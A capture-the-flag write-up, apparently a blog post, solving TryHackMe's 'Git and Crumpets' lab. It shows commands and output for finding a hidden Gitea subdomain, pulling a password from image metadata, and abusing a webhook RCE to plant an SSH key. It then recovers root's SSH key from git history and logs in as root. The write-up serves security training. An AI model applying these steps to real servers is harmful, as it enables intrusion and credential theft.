

+++
title = "Git and Crumpets - Write Up"
date = "03/07/2021"
author = "Lanfran02"
cover = "cover.png"
useRelativeCover = true
description = "TryHackMe's medium level machine."
+++

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/gitandcrumpets)  | Medium  |  [hydragyrum](https://tryhackme.com/p/hydragyrum)  |

## Reconn

In the description of this room we can find that "_the developers included a few countermeasures..._"

It's very hard to use nmap because the server starts blocking our requests.
We practically can not scan the machine, we just have the IP and using the browser we get redirected to a youtube video.

But we can use curl to get the source code of the page.

```bash
╰─ lanfran@parrot ❯ curl 10.10.197.95                                                                                              ─╯
[...]
      <h1>Nothing to see here, move along</h1>
      <h2>Notice:</h2>
      <p> 
        Hey guys,
           I set up the dev repos at [REDACTED].git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
        Hydra
      </p>
      <pre>
[...]
```

Let's add the new subdomain found to our /etc/hosts file, and browse to it.

It's a Gitea page.

## FootHold - User

I digged into the page, and didn't find anything. So I registered a new account.

Browsing through the repos, I found 2 users, ***scones*** and ***hydra*** with some own repositories.

The user scones, had a repository where he commited some changes.

Reading the comments of the commit _"I kept the password in my avatar to be more secure."_ we know where this user stores his password.

So I downloaded the file, and used exiftool to see if it has something interesting.

```bash
╰─ lanfran@parrot ❯ exiftool cant-touch-this/photo.jpg                                                                            
[...]
Interlace                       : Noninterlaced
Description                     : My [REDACTED] guess
[...]
```
Cool!

We now can login to the page with the user scones and his password!

Looking online, Gitea has an exploit where you can use webhooks for RCE.

So let's use the repo cant-touch-this to exploit it!

Unluckily we can't get a rev shell straight forward. But we can put our ssh key in the authorized_keys of the user "git". Even we can read the user's flag from here.



Adding that part, we need to clone the repo to our local machine,and make a new commit.

```bash
git clone http://[REDACTED].git-and-crumpets.thm/scones/cant-touch-this.git
[...]

╰─ lanfran@parrot ❯ git add hello.php && git commit -m "Exploiting" && git push -u origin master                                   ─╯
[master 6233b49] Exploiting

[...]
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 hello.php
Username for 'http://[REDACTED].git-and-crumpets.thm': scones
Password for 'http://scones@[REDACTED].git-and-crumpets.thm': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (2/2), 276 bytes | 276.00 KiB/s, done.
Total 2 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
remote: dGhte2ZkN2Fi[REDACTED]ZhYTE2fQ== <--- ****USER FLAG****
To http://[REDACTED].git-and-crumpets.thm/scones/cant-touch-this.git
   9ae06d7..6233b49  master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.
```

If everithing it's okay, we can now ssh to the machine with _git_.

```bash
─ lanfran@parrot ❯ ssh git@git-and-crumpets.thm -i id_rsa                                                                     ─╯
Warning: Permanently added the ECDSA host key for IP address '10.10.69.176' to the list of known hosts.
Last failed login: Fri May 21 18:30:37 CEST 2021 from 192.168.247.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Sat Apr 17 23:07:52 2021
[git@git-and-crumpets ~]$ ls
user.txt
```
## Root

Looking inside the machine, I found an interesting folder from root's repository.
```bash
[git@git-and-crumpets ~]$ ls -la /var/lib/gitea/data/gitea-repositories/root
total 0
drwxr-xr-x. 3 git git  24 Apr 15 15:25 .
drwxr-xr-x. 5 git git  45 Apr 15 15:50 ..
drwxr-xr-x. 7 git git 119 Apr 15 15:25 backup.git
```

I downloaded the entire folder and used GitTools's extractor to extract all the commits.

```bash
/THM/tools/GitTools/Extractor/extractor.sh ~/THM/gitandcrumpets/root/ .
```

After that, used git log to check what the user did. 

Checked the hashes of the commits and made a diff of all of them.

I found the ssh private key of root!!

```bash
─ lanfran@parrot ❯ git diff 0b23539d97978fc83b763ef8a4b3882d16e71d32 c242a466aa5d4ae0bb8206ef5d05351d3fd6aff9 > dumped_data
```

Inside dumped_data we have the ssh key and where the key was stored, among with the file's name.

I tried to ssh with root to the machine, but it was protected. So I ran hydra against it...

BUT, it was taking too much time, so I tried with the key's name itself "Su[REDACTED]r3". How did I get this? iniside the dumped file :)

```bash
╰─ lanfran@parrot ❯ ssh root@git-and-crumpets.thm -i id_rsa_root                                                                  ─╯
Enter passphrase for key 'id_rsa_root': 
Last login: Fri Jul  2 23:11:30 2021
[root@git-and-crumpets ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@git-and-crumpets ~]# ls 
anaconda-ks.cfg  root.txt
```

And we rooted the machine!

That's all from my side, hope you find this helpful!